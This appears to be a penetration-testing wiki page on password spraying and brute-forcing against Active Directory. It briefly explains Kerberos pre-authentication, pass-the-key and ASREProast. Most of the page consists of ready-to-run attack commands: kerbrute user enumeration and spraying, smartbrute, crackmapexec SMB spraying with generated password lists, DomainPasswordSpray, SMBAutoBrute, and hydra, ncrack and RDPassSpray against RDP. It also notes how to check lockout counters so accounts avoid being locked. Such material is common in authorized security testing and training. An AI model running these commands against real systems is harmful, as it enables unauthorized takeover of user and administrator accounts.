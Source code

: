```yaml
---
description: >-
  Password spraying refers to the attack method that takes a large number of
  usernames and loops them with a single password.
---
```


# Password spraying

{% hint style="info" %}
The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.
{% endhint %}

## **Kerberos pre-auth bruteforcing**

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication".

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from his password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called [pass-the-key](https://www.thehacker.recipes/ad-ds/movement/kerberos/pass-the-key).

Sometimes, the pre-authentication is disabled on some accounts. The attacker can then obtain information encrypted with the account's key. While the obtained TGT cannot be used since it's encrypted with a key the attacker has no knowledge of, the encrypted information can be used to bruteforce the account's password. This is called [ASREProast](https://www.thehacker.recipes/ad-ds/movement/kerberos/asreproast).

Last but not least, the pre-authentication step can be bruteforced. This type of [credential bruteforcing](https://www.thehacker.recipes/ad-ds/movement/credentials/bruteforcing) is way faster and stealthier than other bruteforcing methods relying on NTLM. Pre-authentication bruteforcing can even be faster by using UDP as the transport protocol, hence requiring less frames to be sent.

{% hint style="info" %}
Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.
{% endhint %}

{% embed url="https://github.com/ropnop/kerbrute" %}

****

### Username bruteforce

```
 ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
```

### Password bruteforce

```
./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
```

### Password spray

```
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
```

[smartbrute](https://github.com/ShutdownRepo/smartbrute) (Python) can be used to bruteforce credentials through the Kerberos pre-authentication. The smartbrute utility can be used in a `brute` mode (standard bruteforcing features) or in a `smart` mode (requires prior knowledge of a low-priv user credentials, but operates LDAP enumeration and avoid locking out accounts, fetches the users list and so on).

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
​
# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos
```



### **​​Spray a pre-generated passwords list**

Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.

```
crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
```

Using `DomainPasswordSpray` to spray a password against all users of a domain.

```
# https://github.com/dafthack/DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Summer2021!
# /!\ be careful with the account lockout !
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

Using `SMBAutoBrute`.

```
Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
```

****

### **Spray passwords against the RDP service**

Using RDPassSpray to target RDP services.

```
git clone https://github.com/xFreed0m/RDPassSpray
python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
```

Using hydra and ncrack to target RDP services.

```
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
```

****

### **BadPwdCount attribute**

{% hint style="info" %}
The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.
{% endhint %}

```
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

****
